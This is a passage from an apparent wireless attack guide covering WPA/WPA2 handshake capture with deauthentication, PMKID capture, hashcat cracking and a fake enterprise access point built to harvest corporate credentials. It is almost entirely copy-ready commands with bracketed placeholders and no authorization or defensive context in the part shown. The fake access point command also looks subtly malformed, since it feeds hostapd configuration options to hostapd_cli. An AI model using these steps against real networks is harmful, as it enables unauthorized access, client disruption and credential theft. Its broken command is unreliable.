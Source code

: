 ```python
    }

# Usage
if __name__ == "__main__":
    intel = analyze_survey_data('survey-01.csv')
    print(json.dumps(intel, indent=2))
```

## Phase 2: WPA/WPA2 Attacks

### 2.1 Handshake Capture

```bash
# Target specific network for handshake capture
sudo airodump-ng -c [CHANNEL] --bssid [BSSID] -w handshake wlan0mon

# Deauthentication attack to force handshake
sudo aireplay-ng -0 5 -a [BSSID] -c [CLIENT_MAC] wlan0mon

# Automated handshake capture with timeout
timeout 300 sudo airodump-ng -c [CHANNEL] --bssid [BSSID] -w auto_capture wlan0mon &
sudo aireplay-ng -0 10 -a [BSSID] wlan0mon
```

### 2.2 PMKID Attack (WPA2)

```bash
# Modern PMKID attack (no client required)
sudo hcxdumptool -i wlan0mon -o pmkid_capture.pcapng --enable_status=1

# Convert for hashcat
hcxpcapngtool -o pmkid.22000 -E essidlist pmkid_capture.pcapng

# Hashcat attack
hashcat -m 22000 pmkid.22000 /path/to/wordlist.txt
```

### 2.3 Advanced WPA Attacks

```bash
# WPA Enterprise attack (EAP)
# Create fake AP for credential harvesting
hostapd_cli -i wlan0mon \
  interface=wlan0mon \
  driver=nl80211 \
  ssid="Corporate-WiFi" \
  hw_mode=g \
  channel=6 \
  auth_algs=3 \
  ieee8021x=1 \
  eap_server=1 \
  eap_user_file=/etc/hostapd/eap_users
```
